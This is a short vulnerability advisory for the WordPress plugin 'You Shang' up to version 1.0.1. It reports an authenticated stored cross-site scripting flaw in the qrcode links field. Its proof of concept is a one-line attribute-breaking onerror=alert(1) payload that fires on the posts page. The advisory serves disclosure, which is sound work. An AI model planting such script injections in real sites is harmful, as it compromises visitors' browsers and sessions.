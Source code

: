 # You Shang<=1.0.1 Authenticated Stored Cross-Site Scripting(XSS)

## Description

    The plugin doesn't properly sanitise qrcode links, which result into a Stored Cross-Site Scripting(XSS).

## Affects Plugins

    You Shangr<=1.0.1
    https://wordpress.org/plugins/you-shang/

## Author

    yangshengcheng@webray.com.cn inc

## Proof of Concept

Open wechat switch and edit the "qrcode links " text area to 
```
http://127.0.0.1/wo"onerror=alert(1);&quot;
```

![image-20210730181143910](/img/image-20210730181143910.png)

Visit the posts page. We can see the alert page.


![image-20210730180550253](/img/image-20210730180550253.png)

![image-20210730180628529](/img/image-20210730180628529.png)

